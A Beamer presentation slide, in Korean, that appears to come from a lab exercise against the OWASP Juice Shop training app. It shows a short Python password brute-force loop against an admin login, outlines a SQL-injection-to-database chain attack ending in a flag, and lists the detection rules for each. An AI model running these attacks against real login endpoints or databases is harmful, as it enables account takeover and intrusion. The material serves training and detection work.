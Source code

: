 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[fragile]{대표 PoC — Brute Force + Infiltration}
\begin{columns}[T]
\begin{column}{0.48\textwidth}
\begin{block}{Web Brute Force (brute\_web.py)}
\begin{lstlisting}[language=Python]
# wordlist.txt: 50 passwords
# admin123 is at position 26
for pw in open("wordlist.txt"):
    r = requests.post(URL, json={
        "email":"admin@juice-sh.op",
        "password": pw.strip()})
    if r.status_code == 200:
        print(f"[+] Found: {pw}")
        break
\end{lstlisting}
{\footnotesize 규칙: 동일 endpoint POST $\times$5/30초}
\end{block}
\end{column}
\begin{column}{0.48\textwidth}
\begin{block}{Infiltration (infiltration.py)}
{\footnotesize 3단계 체인 공격:}
\begin{enumerate}
    \item SQLi로 admin 토큰 획득
    \item Internal API 탐색\\
          \texttt{GET /admin/users}
    \item MySQL 접속, flag 테이블 조회\\
          \texttt{FLAG\{infiltration\_success\}}
\end{enumerate}
\vspace{0.3em}
{\footnotesize 규칙: frontend $\rightarrow$ MySQL(3306) 연결 탐지}
\end{block}
\end{column}
\end{columns}
\end{frame}

\section{테스트 접속 정보}
\end{document}

